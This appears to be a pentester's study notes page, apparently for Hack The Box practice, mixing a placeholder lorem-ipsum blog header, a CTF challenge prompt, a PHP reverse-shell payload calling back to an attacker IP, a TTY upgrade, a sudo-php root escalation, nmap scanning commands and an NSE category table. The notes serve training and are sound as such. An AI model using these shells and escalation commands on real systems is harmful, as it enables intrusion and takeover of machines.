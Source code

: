 ```yaml
---
title: Super cool article that I wrote
summary: Lorem ipsum dolor sit amet, consectetur adipiscing elit. Aenean in
  eleifend justo, vestibulum congue lacus. Quisque est libero, lacinia sed
  placerat ac, interdum id urna.
categories:
  - Post
tags:
  - Blog
  - post
  - lorem
  - ipsum
date: 2025-06-18T20:34:00.000Z
draft: false
---
```




Volnaya Forums

"The Volnaya Forums stand as a sprawling network where citizens compete to outdo each other in public displays of loyalty. Every post and reply is carefully monitored, and the most zealous praise is rewarded with higher loyalty scores. Behind the scenes, a small cadre of administrators wields absolute control, silencing dissent and shaping the narrative to serve the regime’s ambitions. Task Force Phoenix has identified the forum’s admin account as a critical target. Gaining access would allow the task force to disrupt the flow of propaganda and strike a blow against the regime’s information control. Recently, we managed to secure a backup copy of the forum server from an unsecured FTP server. Can you analyze the platform’s architecture and code to uncover any weaknesses that might grant us access to the admin account?"


### Remote code execution
**PHP code**

```
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```

**Upgrading shell to TTY**

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Privilege Escalation via PHP

You can spawn a root shell like this:

`sudo /usr/bin/php -r 'system("/bin/bash");'`


## Way Forward


- [ ]  Root a Retired Easy Box  
    
- [ ]  Root a Retired Medium Box  
    
- [ ]  Root an Active Box  
    
- [ ]  Complete an Easy Challenge  
    
- [ ]  Share a Walkthrough of a Retired Box  
    
- [ ]  Complete Offensive Academy Modules  
    
- [ ]  Root Live Medium/Hard Boxes  
    
- [ ]  Complete A Track  
    
- [ ]  Win a `Hack The Box Battlegrounds` Battle  
    
- [ ]  Complete A Pro Lab


# Host Discovery Using Nmap

```
sudo nmap 10.129.2.0/24 -sn -oA tnet | grep for | cut -d" " -f5
```

## Nmap Banner Grabbing

```
nmap 10.129.96.46 -p 22,80,110,139,143,445,31337 -sV -Pn -n --disable-arp-ping --packet-trace
```

# Nmap Scripting Engine

---

Nmap Scripting Engine (`NSE`) is another handy feature of `Nmap`. It provides us with the possibility to create scripts in Lua for interaction with certain services. There are a total of 14 categories into which these scripts can be divided:

| **Category** | **Description**                                                                                                                         |
| ------------ | --------------------------------------------------------------------------------------------------------------------------------------- |
| `auth`       | Determination of authentication credentials.                                                                                            |
| `broadcast`  | Scripts, which are used for host discovery by broadcasting and the discovered hosts, can be automatically added to the remaining scans. |
| `brute`      | Executes scripts that try to log in to the respective service by brute-forcing with credentials.                                        |
| `default`    | Default scripts executed by using the `-sC` option.                                                                                     |
| `discovery`  | Evaluation of accessible services.                                                                                                      |
| `dos`        | These scripts are used to check services for denial of service vulnerabilities and are used less as it harms the services.              |
| `exploit`    | This category of scripts tries to exploit known vulnerabilities for the scanned port.                                                   |
| `external`   | Scripts that use external services for further processing.                                                                              |
| `fuzzer`     | This uses scripts to identify vulnerabilities and unexpected packet handling by sending different fields, which can take much time.     |
| `intrusive`  | Intrusive scripts that could negatively affect the target system.                                                                       |
| `malware`    | Checks if some malware infects the target system.                                                                                       |
| `safe`       | Defensive scripts that do not perform intrusive and destructive access.                                                                 |
| `version`    | Extension for service detection.                                                                                                        |
| `vuln`       | Identification of specific vulnerabilities.                                                                                             |
